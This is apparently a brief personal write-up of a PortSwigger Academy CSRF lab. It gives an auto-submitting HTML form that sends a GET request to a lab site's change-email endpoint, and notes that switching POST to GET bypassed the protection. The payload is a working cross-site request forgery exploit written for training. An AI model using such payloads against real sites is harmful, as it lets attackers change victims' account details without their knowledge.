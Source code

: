 # CSRF Vulnerability


![****](/PortSwigger/Academy/PortSwigger/Labs/CSRF/Screenshots/cssrf2.PNG)

## Let generate some Payloads!

```php
<form method="GET" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway

- We change the request method from Post to **Get** and it worked!